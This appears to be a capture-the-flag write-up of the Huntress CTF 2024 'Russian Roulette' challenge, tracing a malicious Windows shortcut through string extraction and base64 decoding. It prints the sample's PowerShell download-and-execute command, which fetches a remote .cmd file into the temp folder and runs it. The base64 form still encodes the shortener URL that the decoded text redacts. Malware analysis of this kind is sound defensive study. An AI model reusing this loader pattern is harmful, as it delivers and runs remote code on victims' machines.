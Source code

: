 ```yaml
---
title:          "Russian Roulette (Huntress CTF 2024)"
pubDate:        2024-11-27
description:    CTF ComSec CyberSecurity Write-up Huntress Huntress-CTF-2024
---
```


> Author: @JohnHammond
>
> My PowerShell has been acting really weird!! It takes a few seconds to start up, and sometimes it just crashes my computer!?!?! :(
>
> WARNING: Please examine this challenge inside of a virtual machine for your own security. Upon invocation there is a real possibility that your VM may crash.
>
> NOTE: Archive password is russian_roulette

This was fun. It reminded me of the days I spent binge watching John Hammond's [malware analysis videos](https://www.youtube.com/playlist?list=PL1H1sBF1VAKWMn_3QPddayIypbbITTGZv). The static analysis was very very lengthy, but very very fun and rewarding!

## step 1: lnk file
Running on linux, I could not open the lnk file. I ran `strings` on the lnk file, and got nothing. Then I realised windows uses long string encodings, or 16-bit UTF little endian. When viewing with `hexdump -C` you can see the strings broken with a dot in between - since the hexdump is showing 8-bit by 8-bit. Running `strings -el` for long encoding yields this:

```
powershell.exe
?......WindowsSystem32WindowsPowerShellv1.0powershell.exe
C:Windowssystem32
-e aQB3AHIAIABpAHMALgBnAGQALwBqAHcAcgA3AEoARAAgAC0AbwAgACQAZQBuAHYAOgBUAE0AUAAvAC4AYwBtAGQAOwAmACAAJABlAG4AdgA6AFQATQBQAC8ALgBjAG0AZAA=
```

So:

1. Powershell is being invoked
2. There is a base64 encoded string

Decoding the base64 string gives (URL redacted):

```
iwr is.gd/<REDACTED> -o $env:TMP/.cmd;& $env:TMP/.cmd
```

There's a few things happening:

1. `iwr` is the Powershell 'curl', invoking a web request from the URL `is.gd/<REDACTED>`
2. It is saved it into a temporary `cmd` file.
3. This CMD file is then executed (with the `&` ampersand shorthand alias).

## step 2: getting the remote file
So we found there is a remote file being fetched. I try to `curl` it but there is a HTTP302 error. I could have just enabled the redirections flag in curl, but I got lazy and did what any sane person would do - just paste the URL into my web browser.
